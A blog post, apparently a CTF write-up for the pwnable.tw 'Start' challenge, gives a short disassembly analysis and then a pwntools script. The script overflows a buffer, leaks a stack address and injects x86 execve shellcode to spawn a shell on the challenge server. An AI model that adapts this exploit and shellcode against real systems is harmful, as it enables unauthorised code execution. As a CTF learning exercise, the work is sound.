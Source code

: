 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)


As you can see, it firsts push esp, and push address `\_exit` fuction, then push 5 times hex numbers. If you look closer by convert it to string, that's the string "Let's start the CTF:" at the beginning of the program. 

int 80 is a system call in Linux, you can read it more at [here](http://asm.sourceforge.net/syscall.html).


Source code for pwn:
{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  print esp_add

  esp_add = u32(esp_add[0:4])
  print esp_add
  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)


  conn.interactive()
  conn.close()
{% endhighlight %}
